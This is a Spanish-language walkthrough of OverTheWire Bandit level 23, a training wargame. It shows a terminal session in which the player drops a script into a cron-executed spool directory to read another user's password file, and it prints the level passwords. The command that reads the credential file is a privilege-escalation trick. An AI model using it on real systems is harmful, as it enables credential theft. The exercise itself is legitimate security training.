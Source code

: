 # Level 23
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de Acceso
bandit 23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solucion
bandit23@bandit:~$ mkdir /tmp/kd bandit23@bandit:~$ cd /tmp/kd bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh bandit23@bandit:/tmp/kd$ cat script.sh cat /etc/bandit_pass/bandit24 > /tmp/kd/password bandit23@bandit:/tmp/kd$ chmod +x script.sh bandit23@bandit:/tmp/kd$ touch password bandit23@bandit:/tmp/kd$ chmod 666 password bandit23@bandit:/tmp/kd$ ls –la total 92 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:51 .. -rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo bandit23@bandit:/tmp/kd$ ls -la total 92 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. -rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ date Sun Sep 4 01:54:12 AM UTC 2022 bandit23@bandit:/tmp/kd$ ls -la total 96 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. -rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh 
bandit23@bandit:/tmp/kd$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 
bandit23@bandit:/tmp/kd$
## Notas Adicionales
|comando|descripcion|
|xxx|xxx|
## Referencias
